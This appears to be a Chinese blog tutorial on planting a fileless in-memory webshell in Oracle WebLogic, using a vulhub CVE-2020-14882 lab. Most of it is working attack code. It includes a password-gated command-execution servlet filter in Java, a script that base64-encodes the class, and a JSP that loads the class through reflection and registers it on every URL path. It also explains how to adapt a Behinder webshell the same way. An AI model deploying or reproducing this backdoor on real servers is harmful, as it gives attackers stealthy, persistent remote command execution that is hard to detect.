



环境搭建
采用vulhub中weblogic CVE-2020-14882搭建，vulhub安装不赘述
1
2
| cd vulhub/weblogic/CVE-2020-14882/
sudo docker-compose up
|
内存cmd实现
原理和机制感兴趣的可以去看参考链接，比较详细，我跳过（太菜，看不懂😭）
大致流程为：加载恶意类，动态注册filter
1. 编写恶意filter类
阅读本篇文章能了解到：weblogic, 内存马实现，冰蝎
把kuron3k0的cmd代码拿去编译，使用vscode，修复一下问题，编译，对java不熟，也是通过这次学习了很多java相关知识
vscode中文件无红色报错，保存会自动编译到output，查看Configure Classpath即可找到路径，无需再手动F5编译，否则会提示找不到主类
源代码中会使网站所有访问被过滤，导致执行后网站会500，稍作修改
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
| import javax.servlet.*;
import java.io.*;
public class cmdFilter implements Filter{
@Override
public void init(FilterConfig filterConfig) throws ServletException {};
public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
System.out.println("============== in evilfilter ==============");
String pwd = request.getParameter("pwd");
String cmd = request.getParameter("cmd");
if(pwd!=null && cmd!=null){
if(pwd.equals("redn3ck")) {
System.out.println("============== running cmd ==============");
String result = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A").next();
response.getOutputStream().println(result);
response.getOutputStream().flush();
}else{chain.doFilter(request, response);}
}
else{chain.doFilter(request, response);}
}
@Override
public void destroy() {
}
}
|
编译完成后，把class文件转为base64，用py完成
1
2
3
4
5
6
7
8
9
10
11
| import base64
def toBase64(file, txt):
with open(file, 'rb') as fileObj:
data = fileObj.read()
base64_data = base64.b64encode(data)
fout = open(txt, 'w')
fout.write(base64_data.decode())
fout.close()
toBase64(r'C:\Users\Administrator\AppData\Roaming\Code\User\workspaceStorage\45d8f755763e840a79506c5be7b5e7b6\redhat.java\jdt_ws\cmd_7037b187\bin\cmdFilter.class', 'out.txt')
|
2. 加载恶意类+动态注册filter
由于我们是webshell环境，肯定是执行jsp最为方便，所以使用jsp加载刚才生成的base64，并动态注册filter
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
| <%@ page language="java" import="java.util.*" pageEncoding="UTF-8"%>
<%@ page import="java.lang.reflect.Method" %>
<%@ taglib prefix="c" uri="http://java.sun.com/jsp/jstl/core" %>
<%
byte[] codeClass = java.util.Base64.getDecoder().decode("yv66vgAAADQAfQcAAgEACWNtZEZpbHRlcg..");
ClassLoader cl = (ClassLoader)Thread.currentThread().getContextClassLoader();
Method define = cl.getClass().getSuperclass().getSuperclass().getSuperclass().getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
define.setAccessible(true);
Class evilFilterClass = (Class)define.invoke(cl,codeClass,0,codeClass.length);
String filterName = "weblogic.work.SystemFilter.cmd";
java.lang.reflect.Field cachedClassesF = cl.getClass().getDeclaredField("cachedClasses");
cachedClassesF.setAccessible(true);
Object cachedClass = cachedClassesF.get(cl);
java.lang.reflect.Method putM = cachedClass.getClass().getDeclaredMethod("put", Object.class, Object.class);
putM.invoke(cachedClass, filterName, evilFilterClass);
Class<?> executeThread = Class.forName("weblogic.work.ExecuteThread");
java.lang.reflect.Method m = executeThread.getDeclaredMethod("getCurrentWork");
Object currentWork = m.invoke(Thread.currentThread());
java.lang.reflect.Field connectionHandlerF = currentWork.getClass().getDeclaredField("connectionHandler");
connectionHandlerF.setAccessible(true);
Object obj = connectionHandlerF.get(currentWork);
java.lang.reflect.Field requestF = obj.getClass().getDeclaredField("request");
requestF.setAccessible(true);
obj = requestF.get(obj);
java.lang.reflect.Field contextF = obj.getClass().getDeclaredField("context");
contextF.setAccessible(true);
Object context = contextF.get(obj);
String evilName = "weblogic.system.method.cmd";
java.lang.reflect.Method getFilterManagerM = context.getClass().getDeclaredMethod("getFilterManager");
Object filterManager = getFilterManagerM.invoke(context);
java.lang.reflect.Method registerFilterM = filterManager.getClass().getDeclaredMethod("registerFilter", String.class, String.class, String[].class, String[].class, java.util.Map.class, String[].class);
registerFilterM.setAccessible(true);
registerFilterM.invoke(filterManager, evilName, filterName, new String[]{"/*"}, null, null, null);
%>
|
坑点：最后一行代码中`url`需要改为`new String[]{"/*"}`，意为对网站所有目录生效
把该jsp拿去网站目录访问即可执行
注意：`jsp`在哪个目录执行，最终利用就在该目录
在其他目录利用会导致传参失败，该问题也是坑了很久
我在/console/css/cmd.jsp目录下执行，所以/console/css/?pwd=redn3ck&cmd=id

内存webshell实现
原理一样，编译作者改好的冰蝎马，加载并注册即可
编译时weblogic.servlet.internal.ServletRequestImpl变红，没有这个库，去环境中把相关jar全部拿回
1
2
3
| sudo find / -name weblogic.jar
cp /var/lib/docker/overlay2/d13f05c242a61c2ec44aea486b84d94793ad7026d83a52be9d990378d22453ff/merged/u01/oracle/wlserver/server/lib/*.jar /tmp/jar/
chmod 777 /tmp/jar/
|
vscode配置Configure Classpath，选中所有jar，即可编译成功
执行jsp后使用冰蝎连接发现并不成功，查看终端log

提示第30行类型转换出错，遂将类型转换删除
1
2
|
map.put("response", response);
|
重新编译并执行，成功！

需要注意的是，两次注册的名字需要更改，否则会把之前注册的覆盖掉或者导致网站500
1
2
| String filterName = "weblogic.work.SystemFilter.behinder";
String evilName = "weblogic.system.method.behinder";
|
总结
该方式可实现无文件shell，安全性大大提升，但由于是基于内存，重启服务器必然会消失
另外，java这块很薄弱，感谢宝哥对我的大力帮助！瑞思拜，不肉！
参考链接
https://kuron3k0.github.io/2021/04/23/weblogic-memshell-1/
https://paper.seebug.org/1249/